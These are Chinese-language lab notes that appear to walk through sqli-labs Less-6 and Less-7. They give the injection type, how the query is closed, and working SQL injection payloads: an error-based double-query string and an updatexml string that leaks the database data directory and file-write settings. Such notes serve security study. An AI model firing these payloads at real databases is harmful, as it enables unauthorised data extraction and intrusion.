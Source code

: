 
### Less-6：GET - Double lnjection - Double Quotes - string

**注入类型**

双查询注入

**闭合方式**

id="\$id"

```sql
and (select 1 from (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))a) --+
```

![](file/image_HvXAHZl_zB.png)

### Less-7：GET - Dump into outfile - string

**注入类型**

文件操作→[数据库文件操作](../../学习/数据库文件操作/数据库文件操作.md "数据库文件操作")

**闭合方式**

id=(('\$id'))

```sql
//通过前面关卡爆出文件操作权限和文件操作相对路径
//发现操作目录，但是禁止操作
and updatexml(1,concat(0x7e,@@datadir,0x7e,@@secure_file_priv),1) --+

```
